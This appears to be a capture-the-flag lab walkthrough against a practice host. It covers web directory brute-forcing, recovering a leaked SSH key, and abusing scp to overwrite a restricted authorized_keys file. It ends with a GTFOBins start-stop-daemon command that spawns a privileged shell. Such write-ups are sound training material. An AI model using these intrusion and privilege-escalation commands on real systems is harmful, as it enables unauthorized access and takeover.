 ![](../attachment/ba7b0b36dda9cff9783005101ebbe3f9.png)
Running feroxbuster:
```
feroxbuster -u http://192.168.190.100:7742/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt' -B --auto-tune
```
![](../attachment/ea5cff945e8e1c2810dc8636a220c977.png)
Can be potential usernames.

![](../attachment/77f614fddad4beb3f73f4a91fcf7e722.png)
We have an authorized key in max zip file:
![](../attachment/5caf7a68a22b250726db925b08930c12.png)
With a single command allowed and a private key:
![](../attachment/ad5189063f55b3ea7ac8eae9ddc86f40.png)
Also a tomcat password:
tomcat-users.xml.bak
![](../attachment/59f8e04a587d22af3bb1b2b4a2c1cf76.png)

Then scp_wrapper.sh:
![](../attachment/2f261a461148111a463436cd219f3d31.png)


Now we can try running this script with ssh:
```
ssh max@192.168.190.100 -i id_rsa /home/max/scp_wrapper.sh
```
![](../attachment/0488330d28add43d0de030b22e8e93bb.png)

Now we see that we can run scp. So modifying the authorized keys to remove the command limiting part:
![](../attachment/934fd35d95f7923f3aacbe16f583c1ae.png)
Now:
```
scp -O -i id_rsa authorized_keys max@192.168.190.100:/home/max/.ssh/authorized_keys
```
We transferred the modified authorized keys to the target.
![](../attachment/2ce001f6190cf21787cb41976dfa3d1d.png)
Now  dennis has local.txt:
![](../attachment/3b9409c01a041ec4cee0567e2747004f.png)

Now running linpeas:
![](../attachment/89be8bc306abedeef6925a92dc9ec8ba.png)
Now using gtfobins:
![](../attachment/05914c45e7a1fd1d7479e5b3cbe7f42b.png)
```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![](../attachment/7615e5cbe23c8f349ba001a627cf28db.png)